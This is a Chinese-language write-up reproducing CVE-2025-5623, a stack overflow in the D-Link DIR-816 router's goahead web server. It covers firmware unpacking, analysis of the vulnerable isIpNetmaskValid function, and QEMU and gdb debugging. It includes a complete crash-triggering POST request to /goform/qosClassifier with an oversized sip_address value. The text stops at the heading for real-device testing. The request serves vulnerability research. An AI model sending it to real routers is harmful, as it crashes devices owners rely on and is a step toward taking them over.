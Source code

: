 # CVE-2025-5623 DIR816 路由器栈溢出复现

## 路由器漏洞分析

在官网下载对应版本固件

https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

使用 `binwalk` 查看信息，没有加密对其直接进行解包，提取出系统进行分析。

```bash
binwalk -Me DIR-816A2_FWv1.10CNB05_R1B011D88210.img
find ./ -iname 'busybox'
cp -r ./extractions/DIR-816A2_FWv1.10CNB05_R1B011D88210.img.extracted/0/Linux_Kernel_Image.bin.extracted/1822EE/squashfs-root/ .
```

![image](.pictures/CVE-2025-5623-1-1.png)

这个漏洞存在于 `/bin/goahead` 程序中 `isIpNetmaskValid` 函数中，由于主调函数的 `sip_address` 和 `dip_address` 参数可控，在其后传参并调用的此函数中，直接对字符串进行了写入操作，无论传入参数长如为何，都会被复制到 `local_30` 变量中，涉及到有危险的入口函数有三个 `FUN_0044ab48` `FUN_0044dde8` 和 `FUN_0046bb80`，在这里我使用了 `FUN_0046bb80` 进行漏洞复现。

( `FUN_0046bb80` 中，关于 `sip_address` 和 `dip_address` 的获取。 )

![image](.pictures/CVE-2025-5623-1-2.png)

( `FUN_0046bb80` 中，将 `sip_address` 和 `dip_address` 传入危险函数。 )

![image](.pictures/CVE-2025-5623-1-3.png)

( `isIpNetmaskValid` 中，漏洞片段。 )

![image](.pictures/CVE-2025-5623-1-4.png)

也就是我们可以使用 `sip_address` 或 `dip_address` 参数，对其进行栈溢出攻击。接着，我们去寻找漏洞的接口点，首先，根据后面的判定写一些padding保证程序能够向下运行到目标函数，然后补充最简单的漏洞测试脚本。

![image](.pictures/CVE-2025-5623-1-5.png)

得到的必须参数：

```nginx
dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=vul
```

然后，对交叉引用进行跟踪，发现函数 `formDefineFirewall` 定义了相关的接口调用。

![image](.pictures/CVE-2025-5623-1-6.png)

于是，我们可以了解最终调用的接口是 `/goform/qosClassifier` ，最终包为：

```
POST /goform/qosClassifier HTTP/1.1
Content-Length: 471
Host: 192.168.1.2
Content-Type: application/x-www-form-urlencoded
Connection: close

dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## 漏洞模拟复现分析

我们使用qemu user进行仿真模拟：

```bash
sudo chroot . ./qemu-mipsel-static -strace ./bin/goahead
```

然后对所有出现的报错进行patch修改，即使能看到多出天际的报错，至少是跑起来了，毕竟和真机的环境差了十万八千里。反正在咸鱼花费15巨资买了真机，在这里运行起来便是完事大吉。

![image](.pictures/CVE-2025-5623-2-1.png)

我们使用 burp 对主页抓包，然后修改内容为我们的目标包：

![image](.pictures/CVE-2025-5623-2-2.png)

可以看到我们仿真的程序出现了segmentation fault，应该是栈溢出的结果。

![image](.pictures/CVE-2025-5623-2-3.png)

我们使用gdb进行进一步的调试,将断点设置在最后的函数上：

```bash
sudo chroot . ./qemu-mipsel-static -strace -g 1234 ./bin/goahead
```

```bash
gdb-multiarch ./bin/goahead
set architecture mips
target remote :1234

b isIpNetmaskValid
c
```

![image](.pictures/CVE-2025-5623-2-4.png)

此时，使用burp再次发包，观察断点，可以发现，此时栈上以及被我们写满了'AAAA'。确认是我们刚刚的payload生效才导致的栈溢出和segmentation fault。

![image](.pictures/CVE-2025-5623-2-5.png)

## 真机漏洞复现和调试